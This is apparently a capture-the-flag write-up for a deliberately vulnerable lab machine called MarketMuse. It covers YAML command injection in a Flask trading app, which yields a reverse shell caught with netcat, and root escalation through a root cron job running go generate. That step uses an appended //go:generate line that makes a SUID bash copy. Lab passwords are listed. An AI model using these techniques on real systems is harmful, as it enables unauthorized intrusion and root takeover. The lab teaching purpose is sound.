





# MarketMuse

## Introduction

MarketMuse is a box that highlight custom webapp exploitation and custom script execution. It also rewards trial and error and enumeration.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| bbgo | NotMeantToBeCracked9882/ |
| root  | NotMeantToBeCracked765/ |

### Key Processes

- nginx: public web server on TCP/80, reverse proxies to the local Flask app on 127.0.0.1:5000.
- marketmuse.service: custom Flask web app running as user bbgo.
  - Source: /opt/marketmuse/app/app.py
  - Upload/report paths: /opt/marketmuse/uploads/ and /opt/marketmuse/reports/
- /usr/local/bin/marketmuse-preflight: custom preflight helper used before replay execution. Intentionally vulnerable through unsafe shell command construction.
- /usr/local/bin/market-replay-runner: thin wrapper around /usr/local/bin/bbgo.
- /usr/local/bin/bbgo: local BBGO-style mock CLI used for the backtest workflow.
- Custom Go strategy workspace: /opt/trading-engine/custom-strategies/

No intentionally vulnerable third-party versions are used. The intended vulnerabilities are custom logic flaws.

### Automation / Crons

Root cron: */2 * * * * root /usr/local/bin/bbgo-strategy-rebuild

Purpose: simulates an internal strategy rebuild pipeline.

Relevant files:

- /etc/cron.d/strategy-rebuild
- /usr/local/bin/bbgo-strategy-rebuild
- /opt/trading-engine/custom-strategies/

Behavior:

- Runs as root every 2 minutes.
- Enters /opt/trading-engine/custom-strategies.
- Runs go generate ./...
- Builds /opt/trading-engine/bin/strategy-runner.
- Logs to /var/log/bbgo/strategy-rebuild.log.

This is intentionally used for privilege escalation: bbgo can modify Go strategy source files, and root runs go generate ./... in that writable tree.

### Firewall Rules

No custom firewall rules.

Expected exposed service:

- TCP/80: Nginx / MarketMuse web app

The Flask app listens only locally on 127.0.0.1:5000.

### Docker

Docker is not used.


# Writeup


# Enumeration

I'll start enumeration with a basic nmap scan for all services and versions.

```bash
sudo nmap -p- -sVC marketmuse.htb
```
````
Starting Nmap 7.95 ( https://nmap.org ) at 2026-06-07 11:04 EDT
Nmap scan report for marketmuse.htb (192.168.50.158)
Host is up (0.00069s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f8:7a:bb:63:3d:9b:98:84:42:18:53:66:e8:13:d7:4d (ECDSA)
|_  256 74:48:d3:3b:af:88:92:f5:9e:14:80:e9:42:06:98:bd (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: MarketMuse | Strategy Prediction Replay
MAC Address: 00:0C:29:63:23:DF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````
We have two very common ports, port 80 to what seems to be a web application and port 22, ssh.

I'll ran a quick feroxbuster scan while I review the webpage, however, it doesn't show anything interesting.

```bash
feroxbuster -u http://marketmuse.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
```
````
404      GET        5l       31w      207c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       20l      101w     1312c http://marketmuse.htb/static/market-hero.svg
200      GET      828l     1637w    21585c http://marketmuse.htb/strategy/replay
200      GET       17l       76w      968c http://marketmuse.htb/static/market-footer.svg
200      GET      821l     1635w    21497c http://marketmuse.htb/
[####################] - 34s    20484/20484   0s      found:4       errors:0      
[####################] - 33s    20479/20479   619/s   http://marketmuse.htb/
````

The webpage seems to be aimed to users with knowledge on market and strategies.


Exploring /strategy/replay, the application provides a strategy replay workspace where users can upload YAML profiles and generate market study reports with technical replay metrics, projections, etc...


Also, in the footer of the webpage we can see it's powered by bbgo, a Go crypto strategy backtesting framework. In this case it's seems to be used alongside the uploaded yaml file to get the metrics and projections.


# Foothold

Knowing that bbgo is running in this webapp, we can potentially look for any cve's or known vulnerabilities, but this won't be helpful.

The next step is the upload hability implemented. If we try to upload any content and name it with the extension .yaml, we'll get an error


The webapp is actually parsing the files and it seems to be checking for a specific structure in them. We can get an idea of what it's asking from the webapp


To get an example of a valid .yaml stating a profile, we can search for bbgo .yaml profiles and see how they're structured.

Inside bbgo's repository we can get this example:

````
backtest:
  # your back-test will start at the 2021-01-10, be sure to sync the data before 2021-01-10 
  # because some indicator like EMA needs more data to calculate the current EMA value.
  startTime: "2021-01-10"

  # your back-test will end at the 2021-01-10
  endTime: "2021-01-21"
  
  # the symbol data that you want to sync and back-test
  symbols:
  - BTCUSDT

  sessions:
  - binance
  
  # feeMode is optional
  # valid values are: quote, native, token
  #   quote: always deduct fee from the quote balance
  #   native: the crypto exchange fee deduction, base fee for buy order, quote fee for sell order.
  #   token: count fee as crypto exchange fee token
  # feeMode: quote
  
  accounts:
    # the initial account balance you want to start with
    binance: # exchange name
      balances:
        BTC: 0.0
        USDT: 10000.0
````

I'll save this as a .yaml file and upload it to the webapp. This time it gives us a different output


We get a chart and other different metrics for the profile we just submitted. We also have the functionality to export our results to cve or pdf. It doesn't seem to be a vulnerability around that cve or pdf export, so I'll focus on the yaml file.

We can try an encoded value and see if it works


It seems like some sort of filtering is happening in the back. 

To try and bypass these filters, we can use yaml syntax. A scalar "|" allows us to breaklines, we can try that with a valid value.




It's valid, we could try a payload now



It seems the filter is still being applied.



In the collection "sessions" however, we can try the same syntax and the yaml would load



And I receive a call on my kali

```bash
nc -lvnp 4444
````
````
listening on [any] 4444 ...
connect to [192.168.50.139] from (UNKNOWN) [192.168.50.158] 58094
GET / HTTP/1.1
Host: 192.168.50.139:4444
User-Agent: curl/8.5.0
Accept: */*
````

Great, with this, we can try a payload and see if we can get a shell.



```bash
nc -lvnp 9001
````
````
listening on [any] 9001 ...
connect to [192.168.50.139] from (UNKNOWN) [192.168.50.158] 51610
bash: cannot set terminal process group (112867): Inappropriate ioctl for device
bash: no job control in this shell
bbgo@dev:/opt/marketmuse/app$ whoami
whoami
bbgo
bbgo@dev:/opt/marketmuse/app$ 
````

# Privilege Escalation

We're user bbgo now and after spawning a full tty, we can take a look manually at the box.

Inside the directory /opt, there are two subdirectories

```bash
ls
````
````
marketmuse  trading-engine
````

marketmuse is the root directory for the webapp. Trading-engine is the internal trading strategy backend with configs, custom-strategies and a bin stored by root.

```bash
ls -la *
````
````
marketmuse:
total 24
drwxr-xr-x 6 bbgo bbgo 4096 Jun  7 16:41 .
drwxr-xr-x 4 root root 4096 Jun  6 15:28 ..
drwxr-x--- 4 bbgo bbgo 4096 Jun  7 15:43 app
drwxrwxr-x 2 bbgo bbgo 4096 Jun  7 17:19 reports
drwxrwxr-x 2 bbgo bbgo 4096 Jun  7 16:41 studies
drwxrwxr-x 2 bbgo bbgo 4096 Jun  7 17:19 uploads

trading-engine:
total 20
drwxr-xr-x 5 bbgo bbgo 4096 Jun  6 15:28 .
drwxr-xr-x 4 root root 4096 Jun  6 15:28 ..
drwxr-xr-x 2 bbgo bbgo 4096 Jun  6 15:28 bin
drwxrwxr-x 2 bbgo bbgo 4096 Jun  6 15:28 configs
drwxrwxr-x 4 bbgo bbgo 4096 Jun  6 15:28 custom-strategies
````

```bash
bbgo@dev:/opt/trading-engine/bin$ ls -la
````
````
total 1880
drwxr-xr-x 2 bbgo bbgo    4096 Jun  6 15:28 .
drwxr-xr-x 5 bbgo bbgo    4096 Jun  6 15:28 ..
-rwxr-xr-x 1 root root 1916306 Jun  7 17:28 strategy-runner
````

There isn't much more, so I ran linpeas and it reveals strategy-rebuild as a custom cronjob:

````
/etc/cron.d:
total 24
drwxr-xr-x   2 root root 4096 Jun  6 15:28 .
drwxr-xr-x 112 root root 4096 Jun  7 14:14 ..
-rw-r--r--   1 root root  201 Apr  8  2024 e2scrub_all
-rw-r--r--   1 root root  102 Feb 10 00:34 .placeholder
-rw-r--r--   1 root root   54 Jun  7 14:29 strategy-rebuild
-rw-r--r--   1 root root  396 Feb 10 00:34 sysstat
````

````
cat /etc/cron.d/strategy-rebuild
````
````
*/2 * * * * root /usr/local/bin/bbgo-strategy-rebuild
````
````
cat /usr/local/bin/bbgo-strategy-rebuild
````
````
#!/bin/bash
set -e

WORKDIR="/opt/trading-engine/custom-strategies"
LOG="/var/log/bbgo/strategy-rebuild.log"

echo "[$(date -u --iso-8601=seconds)] starting custom strategy rebuild" >> "$LOG"

cd "$WORKDIR"

echo "[$(date -u --iso-8601=seconds)] refreshing generated strategy sources" >> "$LOG"
echo "[$(date -u --iso-8601=seconds)] running go generate ./..." >> "$LOG"
go generate ./... >> "$LOG" 2>&1 || true

echo "[$(date -u --iso-8601=seconds)] building strategy runner" >> "$LOG"
go build -o "/opt/trading-engine/bin/strategy-runner" ./cmd/strategy-runner >> "$LOG" 2>&1

chown root:root "/opt/trading-engine/bin/strategy-runner"
chmod 755 "/opt/trading-engine/bin/strategy-runner"

echo "[$(date -u --iso-8601=seconds)] rebuild complete" >> "$LOG"
````

The workflow of the script is the following:

- It enters the custom strategies directory
- It runs go generate ./..., which executes any //go:generate ... directives inside Go source files
- It compiles the Go strategy runner
- It saves the binary to /opt/trading-engine/bin/strategy-runner
- It makes the binary root-owned
- It logs activity to /var/log/bbgo/strategy-rebuild.log

If we can write a file with a comment //go:generate inside any of the folders of WORKDIR, we can potentially make the cronjob execute a command as root. To do this, I'll do the following:

```bash
ls -la /opt/trading-engine/custom-strategies/*
````
````
-rwxrwxr-x 1 bbgo bbgo   41 Jun  7 14:29 /opt/trading-engine/custom-strategies/go.mod
-rwxrwxr-x 1 bbgo bbgo  319 Jun  7 14:29 /opt/trading-engine/custom-strategies/README.md

/opt/trading-engine/custom-strategies/cmd:
total 12
drwxrwxr-x 3 bbgo bbgo 4096 Jun  6 15:28 .
drwxrwxr-x 4 bbgo bbgo 4096 Jun  6 15:28 ..
drwxrwxr-x 2 bbgo bbgo 4096 Jun  6 15:28 strategy-runner

/opt/trading-engine/custom-strategies/strategies:
total 16
drwxrwxr-x 4 bbgo bbgo 4096 Jun  6 15:28 .
drwxrwxr-x 4 bbgo bbgo 4096 Jun  6 15:28 ..
drwxrwxr-x 2 bbgo bbgo 4096 Jun  6 15:28 grid
drwxrwxr-x 2 bbgo bbgo 4096 Jun  6 15:28 supertrend
bbgo@dev:~$ 
````

As you can see, we have permissions for /opt/trading-engine/custom-strategies/strategies, I'll place the malicious file in /opt/trading-engine/custom-strategies/strategies/grid.

```bash
printf '\n//go:generate /bin/bash -c "cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash"\n' >> grid.go
````

And after waiting a couple of minutes, we have a suid bash in /tmp

```bash
ls
````
````
rootbash
snap-private-tmp
systemd-private-e132500b48874d5aa63d76e36b4846f1-ModemManager.service-kiAWib
systemd-private-e132500b48874d5aa63d76e36b4846f1-polkit.service-EfTjcr
systemd-private-e132500b48874d5aa63d76e36b4846f1-systemd-logind.service-Kh8PHj
systemd-private-e132500b48874d5aa63d76e36b4846f1-systemd-resolved.service-ZLWxFS
systemd-private-e132500b48874d5aa63d76e36b4846f1-systemd-timesyncd.service-L4GZHL
systemd-private-e132500b48874d5aa63d76e36b4846f1-upower.service-5HqW20
tmux-1001
vmware-root_745-4290690999
````
```bash
./rootbash -p
````
````
rootbash-5.2# whoami
root
rootbash-5.2# 
````

